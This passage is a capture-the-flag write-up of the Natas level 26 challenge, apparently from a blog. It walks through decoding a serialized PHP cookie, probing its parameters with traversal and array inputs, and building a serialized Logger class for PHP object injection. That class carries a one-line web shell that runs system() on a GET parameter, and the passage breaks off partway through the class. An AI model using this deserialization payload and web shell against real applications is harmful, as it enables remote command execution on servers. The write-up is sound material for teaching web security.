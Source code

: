And URL decode the end part just for poops and giggles:

`a:1:{i:0;a:4:{s:2:"x1";s:2:"12";s:2:"y1";s:2:"12";s:2:"x2";s:2:"12";s:2:"y2";s:2:"12";}fQ==`

Ummm, hmmm, erm...

OK so that is clearly the values from the GET request being echo'ed back as the "Cookie" (drawing=)

Trying to mess around with the "Set-Cookie" header doesn't lead to much of use, it seems that the Cookie is being set by the application when you submit the GET request. 

Based on the previous challenge I've got the words "Directory Traversal" swimming around in my head. But that might be a false flag, so we'll keep anaylsing the code to be sure. 

> General rule for applications: if you allow users to provide input, sanitise it before processing it. 

With that little rule in mind, lets see what we can do to those inputs that are being encoded into the Cookie.

`GET /?x1=../../../../&y1=12&x2=12&y2=12 HTTP/1.1`

OK, so that gives us an error. Errors are good, they give us important feedback.

This error in particular causes the following message to be displayed:

```
<b>Warning</b>:  imageline() expects parameter 2 to be long, string given in <b>/var/www/natas/natas26/index.php</b> on line <b>66</b><br />
```

OK, so we did provide a string, but that initial value was just an Integer surely? We have two options here, either there is something else happening here, or the developer has made the application so that it will handle some pretty large numbers, for reasons. 

We get a similar error if we change the `x1` value to `x1[]`, except this time it says array insted of string. 

All making sense so far. 

So basically we have the following data flow:

1. User picks 4 values
2. Request is submitted as a GET
3. The contents of the request are de-serialized and base64 decoded
4. The de-serialized content is then base64 encoded and used as the "Set-Cookie" header
5. The values in the cookie are the same as the properties of the "line" that is generated

...

So, the way we need to solve this, is to serialize a class which does things that we want it to do. This will then be `unserialized` by the application, and our code will be executed. 

```
<?php
    class Logger{
        private $logFile;
        private $initMsg;
        private $exitMsg;
      
        function __construct($file) {
            // initialise variables
            $this->initMsg = "";
            $this->exitMsg = "<?php echo(system(\$_GET['c']));?>";
            $this->logFile = $file;
      
            // write initial message
            $fd=fopen($this->logFile,"a+");
            #fwrite($fd,$initMsg);
            fclose($fd);
        }                       
      
        function log($msg){
```